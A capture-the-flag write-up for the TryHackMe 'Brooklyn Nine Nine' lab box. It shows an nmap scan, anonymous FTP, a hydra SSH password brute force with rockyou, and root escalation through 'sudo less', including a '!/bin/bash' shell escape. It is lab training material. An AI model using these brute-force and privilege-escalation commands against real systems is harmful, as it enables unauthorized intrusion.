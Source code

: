 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Brooklyn Nine Nine
# DESCRIPTION       . This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/brooklynninenine
```

```
sudo nmap -sSVC -T5 10.10.189.164 -p- -oN brooklyn911
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 167f2ffe0fba98777d6d3eb62572c6a3 (RSA)
|   256 2e3b61594bc429b5e858396f6fe99bee (ECDSA)
|_  256 ab162e79203c9b0a019c8c4426015804 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- From this scan we can already see that `FTP` supports anonymous login and that there's a `.txt` file. Let's check it out.

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

- Alright. We got two potential usernames, `amy` and `jack`. 

- The webserver itself didn't reveal nothing interesting first sight, but upon checking the source code, we find a hint

```
<!-- Have you ever heard of steganography? -->
```

- Let's check the wallpaper

```bash
wget http://10.10.189.164/brooklyn99.jpg
```

- No idea if I'm doing something wrong or not, but it might've been something to get us off the track.

```
steghide: can not uncompress data. compressed data is corrupted.
```

- I couldn't find anything useful using `binwalk`, `strings` or by analyzing the magic numbers. 

- However, while I was checking the jpg I also ran `hydra` against `ssh` to see if we can bruteforce `jake`'s password.

```
 hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.189.164 ssh
```

- And we could. Let's check the box.

- First flag is in `/home/holt/user.txt`

- By checking `sudo -l` we can see that we can run `/usr/bin/less` as sudo, which can be exploited to elevate our privileges to `root`.

METHOD 1 : read the flag directly

```bash
sudo less /root/root.txt
```

METHOD 2 : spawn root shell

```bash
sudo less /etc/profile
!/bin/bash
```

